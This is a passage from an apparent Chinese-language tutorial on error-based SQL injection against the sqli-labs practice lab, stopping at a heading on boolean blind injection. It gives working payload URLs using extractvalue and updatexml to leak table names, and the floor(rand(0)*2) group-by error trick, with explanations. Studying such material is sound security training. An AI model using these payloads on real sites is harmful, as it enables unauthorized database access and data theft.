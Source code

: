 ### 1.1 使用 `extractvalue` 提取表名

```sql
http://192.168.77.131/master/Less-1/?id=1' and (extractvalue(1, concat(0x3a, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x3a))) --+
```

- **`updatexml(arg1, arg2, arg3)`** 和 **`extractvalue(arg1, arg2)`** 可以用于报错注入。

- **`arg2` 参数：**

  ```sql
  concat(0x3a, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x3a)
  ```

- 最终的payload

  ```sql
  http://192.168.77.131/master/Less-1/?id=1'and extractvalue(arg1,arg2)
  
  http://192.168.77.131/master/Less-1/?id=1'and (extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))) --+
  ```

  以上代码用于在页面中显示当前数据库中的所有表名。

### 1.2 使用 `floor` 函数进行报错注入

- **解释:**``floor报错注入``准确的说应该是``floor``,``count``,``group by``冲突报错,``count(*)``,三者缺一不可

- **示例公式：**

  ```sql
  and select 1 from (select count(*), concat(database(), floor(rand(0)*2)) x from information_schema.tables group by x) a
  ```

- **关键函数解析：**

  - **`floor()`**：取整函数
  - **`rand()`**：生成0和1之间的随机数
  - **`floor(rand(0)*2)`**：当记录数大于等于3时，必定报错且返回值有规律

### 1.3 详细解释

1. **`floor(rand()*2)` 随机输出0或1，有两条记录时可能会报错：**

   - **`rand()`**：生成0和1之间的随机数
   - **`floor(rand()*2)`**：乘以2后取整，结果只能是0或1

   由于`rand()`生成的随机数不同，可能会导致`group by`查询中出现两个不同的分组值，从而引发报错。

2. **`floor(rand(0)*2)` 记录需为3条以上，且3条以上必报错，返回值有规律：**

   - 使用种子为0的`rand(0)`函数，每次调用都会产生相同的随机数，导致所有记录的分组键相同，从而在`group by`时触发报错。

## 2. 布尔盲注
